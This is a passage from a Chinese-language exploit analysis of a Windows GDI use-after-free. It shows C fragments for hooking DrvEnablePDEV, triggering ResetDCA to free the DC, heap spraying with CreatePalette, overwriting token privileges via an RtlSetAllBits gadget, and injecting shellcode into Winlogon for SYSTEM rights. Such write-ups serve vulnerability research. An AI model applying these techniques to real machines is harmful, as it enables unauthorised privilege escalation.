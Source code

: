 
### 2.3 hook_DrvEnablePDEV

DrvEnablePDEV 原函数在微软官方是有解释的，其结构如下：

```C
DHPDEV DrvEnablePDEV(
  [in]           DEVMODEW *pdm,
  [in]           LPWSTR   pwszLogAddress,
                 ULONG    cPat,
  [in, optional] HSURF    *phsurfPatterns,
                 ULONG    cjCaps,
  [out]          ULONG    *pdevcaps,
                 ULONG    cjDevInfo,
  [out]          DEVINFO  *pdi,
                 HDEV     hdev,
  [in]           LPWSTR   pwszDeviceName,
                 HANDLE   hDriver
);
```


因此 hook_DrvEnablePDEV 也是相同的结构，这样在函数中可以再次调用原函数，获得结果返回以保证不影响程序正常运行。

```C
DHPDEV res = ((DrvEnablePDEV_t)globals::origDrvFuncs[INDEX_DrvEnablePDEV])(pdm, pwszLogAddress, cPat, phsurfPatterns, cjCaps, pdevcaps, cjDevInfo, pdi, hdev, pwszDeviceName, hDriver);
```


随后可以再次执行  ResetDCA，造成原DC的对象的结构异常

```C
HDC tmp_hdc = ResetDCA(globals::hdc, NULL);
```


最后使用堆喷的方法申请到原DC对象的内存。

### 2.4 UAF

EXP 是通过 CreatePalette 进行内存的申请，具体申请的过程在 [GDI对象利用](http://ryze-t.com/posts/2021/11/23/GDI-%E5%AF%B9%E8%B1%A1%E5%88%A9%E7%94%A8.html) 中有相关阐述

```C
int pal_cnt = (size - 0x90) / 4;
int palsize = sizeof(LOGPALETTE) + (pal_cnt - 1) * sizeof(PALETTEENTRY);
LOGPALETTE* lPalette = (LOGPALETTE*)malloc(palsize);
lPalette->palNumEntries = pal_cnt;
lPalette->palVersion = 0x300;
return CreatePalette(lPalette);
```


申请的过程中会看到：

```C
  p[0x15B] = GadgetAddr; // RtlSetAllBits FuncAddress

  p[0xE5] = Fake_RtlBitMapAddr; // token.privileges

```


这是因为在通过喷射的方法获得指定内存后，需要在一定的偏移进行覆盖才能覆盖到。

分析内存大小的文章参考 [https://www.wangan.com/p/7fygf309c52e2678](https://www.wangan.com/p/7fygf309c52e2678)

### 2.5 Winlogon.exe

在修改完 _SEP_TOKEN_PRIVILEGES 后，获得SE_DEBUG_PRIVILEGE，此时注入 Winlogon进程执行shellcode，即可获得 system 权限进程。

